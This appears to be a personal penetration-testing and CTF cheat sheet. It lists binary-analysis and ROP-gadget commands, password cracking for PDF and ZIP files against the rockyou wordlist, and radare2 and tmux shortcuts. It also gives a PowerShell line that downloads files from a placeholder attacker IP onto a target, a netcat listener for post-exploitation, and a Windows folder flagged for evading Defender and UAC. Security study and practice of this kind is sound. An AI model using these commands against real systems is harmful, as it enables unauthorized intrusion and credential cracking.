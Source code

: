 # Exploit dev
Show binary protections:  
```
$ rabin2 -I <binary>
$ checksec -f <binary>
```

List imported functions:  
```
$ rabin2 -i <binary>
```

List functions written by the programmer (approx.):  
```
$ rabin2 -qs <binary> | grep -ve imp -e ' 0 '
```

List symbols: (a = inlcude debug symbols, n = sort by address [numeric])
```
$ nm -a -n <binary>
```

Strings:  
```
$ rabin2 -z <binary>
```

ROP gadgets:
```
$ python3 Ropper.py -f <file(s)>
      --all
      --search 'inc eax'
      --jmp eax
      --badbytes 000a0d
      --console
      --help
```

## Radare2
| Function                  | Command |
| ---                       | --- |
| Open file                 | ```$ r2 <binary>``` |
| Help                      | ```> ?``` |
| Quit                      | ```> q``` |
| Analyse all               | ```> aa``` |
| List functions            | ```> afl``` |
| Disassemble function      | ```> pdf [@ <function name>]``` |

# PDF files
## Tools
https://blog.didierstevens.com/programs/pdf-tools/

## Crack
Download Bleeding John (https://github.com/magnumripper/JohnTheRipper). Use pdf2john.pl.
```Kali
$ perl pdf2john.pl file.pdf > pdf-hash.txt
$ john --wordlist=/w/rockyou.txt pdf-hash.txt
```

# PIL
## 
```python
from PIL import Image
img = Image.open("image.png")
pixels = list(img.getdata())
```

# ZIP files
## Crack
```Kali
$ fcrackzip -u -D -p '/w/rockyou.txt' -v file.zip
```

# Windows

## World-write/readable Directory, Windows Defender whitelist, and on UAC bypass list
```C:\Windows\System32\spool\drivers\color\```

## Powershell

### Downloading files onto target machine
```powershell -c Invoke-WebRequest -uri 'http://<attacker IP>/<file>```

# PostSploit

## Arrow-support for nc
```rlwrap nc -nvlp 4444```

# Tmux
| Action            | Command |
|---                |---|
| New tmux          | ```tmux new -s ...``` |
| Attach to tmux    | ```tmux a -t ...``` |
| Detatch from tmux | ```Ctrl+b d``` |
| List tmuxs        | ```tmux ls``` |
| Scroll mode       | ```Ctrl+b [``` |
| Exit scroll mode  | ```q``` |

